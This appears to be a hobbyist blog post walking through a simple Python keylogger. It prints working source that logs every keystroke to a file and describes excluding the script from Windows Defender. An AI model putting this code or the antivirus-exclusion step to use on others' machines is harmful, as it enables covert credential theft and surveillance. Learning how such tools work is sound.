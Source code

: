 ```yaml
---
title: "Making a Keylogger"
date: 2022-04-14
categories: Projects
---
```


The keylogger. The big, bad, sinister program responsible for stealing all your login credentials and, subsequently, your information. Many criminals or those with criminal intent will sometimes call upon the use of a program such as this in a bid to gain access to a network or computer system. For the uninitied, the task of creating and deploying a keylogger may seem like a complicated task but, in reality, it's actually quite simple to get one up and running.

Before we begin, I must give credit to CyberFault who made the [YouTube video](https://www.youtube.com/watch?v=QuH_9OGrVt4) in which I discovered this idea for a project from and Himanshu Tyagi, who authored [the initial post referenced in CyberFault's video](https://www.codeitbro.com/how-to-create-keylogger-in-python/).

***

Now, I'll be honest: at the time of writing this post, I don't really know anything about making a keylogger, much less creating one in Python (even though I am a little bit familiar with the coding language). But, one doesn't need programming knowledge or skills in order to make something. A little technical and computer know-how goes a long way.

Since Tyagi's post already covers how to setup one's computer with Python libraries, I won't go into that. However, here's the code that I'll be using:

```
{
import pynput
from pynput.keyboard import Key, Listener
import logging

log_dir = r"C:/Users/<username>"
logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
   logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
}
```

Right off the bat, there are two fields of interest that would change how and where the output file from this script is saved to:

* `log_dir = r"C:/Users/<username>"`
* `(log_dir + "keyLog.txt")`

The first piece of code tells the script where to save to while the second tells it what filename and extension to use. Both of these can be changed to whatever but, since I just want to try out the code, I'll modify the directory to match my machine's and allow the file to be written as `keyLog.txt`. Whether in a text editor or an IDE, the next thing is to save this script. I'll give it the inconspicious name of `Keylogger.py`.

![Uh oh](/blastermans-base/assets/images/projects/keylogger/windefendercatch.png)

Let's see what this is:

![WindefenderDesc](/blastermans-base/assets/images/projects/keylogger/windefenderdesc.png)

😂

Seems like Windows Defender thinks the file is malicious so I'll need to make an exception for it.

***

With that saved (and excluded from the antivirus), it's time to run the program. This can be done by simply navigating to the script's directory and executing it through Python:

`py.exe .\Keylogger.py`

Now the file running in the terminal. Since it's capturing my keystrokes, the only thing remaining is to type!

***

After a while of typing, let's see what happened:

![Logfile found](/blastermans-base/assets/images/projects/keylogger/logfiledirectory.png)

Neato. The output log was saved the specified directory. What's inside?

![Tada](/blastermans-base/assets/images/projects/keylogger/keylog.png)

And there we have it. All of my keystrokes were recorded and saved to this text file. From it, I can see what character or command was pressed was captured and the time it was sent. Pretty cool stuff. 😎

***

Admittedly, while I was able to successfully create, run, and view the results of this Python keylogger, it relies on Python libraries that must be already by installed on the target computer. However, it was fun making this script to test and see in action a program that actively records every keystroke sent by the user. 

In the future, I work on making a keylogger that doesn't rely on extra libraries or binaries but instead utilizes programming that comes bundled with the target OS. That would be a more independent program than this one and, thus, more awesome. With that, it's onto the next project...


Thanks for reading!